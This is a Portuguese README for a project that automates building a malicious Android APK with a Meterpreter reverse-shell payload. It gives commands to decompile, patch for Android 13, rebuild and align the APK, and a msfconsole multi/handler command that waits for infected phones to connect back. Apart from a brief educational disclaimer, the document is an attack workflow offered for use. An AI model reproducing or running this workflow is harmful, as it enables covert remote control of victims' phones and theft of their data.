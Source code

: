 <h1>Automatização de Geração de APK com Payload Meterpreter e Exploração com Metasploit</h1>
    <p>Este projeto automatiza o processo de criação de um APK malicioso com o payload Meterpreter para Android, utilizando o <code>msfvenom</code>, e fornece instruções para modificar o <code>AndroidManifest.xml</code> para compatibilidade com Android 13. O script também inicia automaticamente o listener no Metasploit para capturar a conexão do dispositivo alvo.</p>

    <h2>Requisitos</h2>
    <ul>
        <li>Python 3 instalado.</li>
        <li><code>msfvenom</code>: Ferramenta do Metasploit para gerar payloads.</li>
        <li>Metasploit Framework: Ferramenta para exploração e captura de sessões de meterpreter.</li>
        <li><code>ApkTool</code>: Ferramenta para descompilar, modificar e recompilar APKs.</li>
        <li><code>ZipAlign</code>: Ferramenta para otimizar APKs.</li>
        <li><code>ApkSigner</code>: Ferramenta para assinar APKs.</li>
    </ul>

    <h2>Instalação dos requisitos</h2>
    <p>Instale o Metasploit Framework:</p>
    <pre><code>curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash</code></pre>

    <p>Instale o ApkTool:</p>
    <ul>
        <li>Baixe o ApkTool <a href="https://github.com/iBotPeaches/Apktool" target="_blank">aqui</a>.</li>
        <li>Siga as instruções para a instalação no seu sistema.</li>
    </ul>

    <p>Instale o ZipAlign:</p>
    <ul>
        <li>O ZipAlign geralmente faz parte do Android SDK.</li>
        <li>Você pode baixar o Android SDK <a href="https://developer.android.com/studio" target="_blank">aqui</a>.</li>
    </ul>

    <p><code>msfvenom</code> já faz parte do Metasploit Framework, então você não precisa instalar separadamente.</p>

    <h2>Como usar o script</h2>
    <h3>Passo 1: Clone o repositório</h3>
    <p>Clone este repositório para sua máquina local:</p>
    <pre><code>git clone https://github.com/seu-usuario/automacao-apk-metasploit.git
cd automacao-apk-metasploit</code></pre>

    <h3>Passo 2: Execute o script</h3>
    <p>Antes de executar o script, certifique-se de que todas as ferramentas mencionadas acima estão instaladas e funcionando corretamente.</p>
    <p>Execute o script Python:</p>
    <pre><code>python3 generate_apk.py</code></pre>

    <h3>Passo 3: O que o script faz</h3>
    <ul>
        <li><strong>Obtém o IP local</strong>: O script utiliza o comando <code>ifconfig</code> para obter o IP local da máquina.</li>
        <li><strong>Gera o APK</strong>: Usando o <code>msfvenom</code>, o script gera um APK malicioso com o payload Meterpreter para o IP local (LHOST) e porta <code>4444</code> (LPORT).</li>
        <li><strong>Instruções para Modificar o Manifesto</strong>: O script fornecerá as instruções para você atualizar o arquivo <code>AndroidManifest.xml</code> no APK para torná-lo compatível com Android 13.</li>
        <li><strong>Iniciar o Listener no Metasploit</strong>: O script executará automaticamente o Metasploit para começar a escutar conexões de dispositivos com o payload.</li>
    </ul>

    <h3>Passo 4: Atualizar o AndroidManifest.xml (para Android 13)</h3>
    <p>Após gerar o APK, você precisa modificar o <code>AndroidManifest.xml</code> para Android 13. Para isso, execute:</p>
    <pre><code>apktool d Brunao.apk</code></pre>

    <p>Abra o arquivo <code>AndroidManifest.xml</code> dentro da pasta descompilada e adicione as permissões necessárias para Android 13.</p>

    <p>Recompile o APK:</p>
    <pre><code>apktool b Brunao</code></pre>

    <p>Alinhe o APK com o comando:</p>
    <pre><code>zipalign -v 4 Brunao.apk Brunao.apk</code></pre>

    <p>Depois, o APK estará pronto para ser assinado e instalado.</p>

    <h3>Passo 5: Executando o Listener no Metasploit</h3>
    <p>Para iniciar o listener no Metasploit e aguardar a conexão do dispositivo alvo, execute:</p>
    <pre><code>msfconsole -x 'use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST [SEU_IP]; set LPORT 4444; exploit'</code></pre>

    <p>Este comando configurará o Metasploit para escutar as conexões de dispositivos com o payload.</p>

    <h2>Contribuindo</h2>
    <p>Sinta-se à vontade para fazer melhorias no código e enviar pull requests.</p>

    <h2>Aviso Legal</h2>
    <p>Este projeto é somente para fins educacionais. Não use essas técnicas em sistemas sem permissão. Realizar ataques sem autorização é ilegal e pode levar a sérias consequências legais.</p>

    <div class="footer">
        <p>&copy; 2025 Seu Nome. Todos os direitos reservados.</p>
    </div>
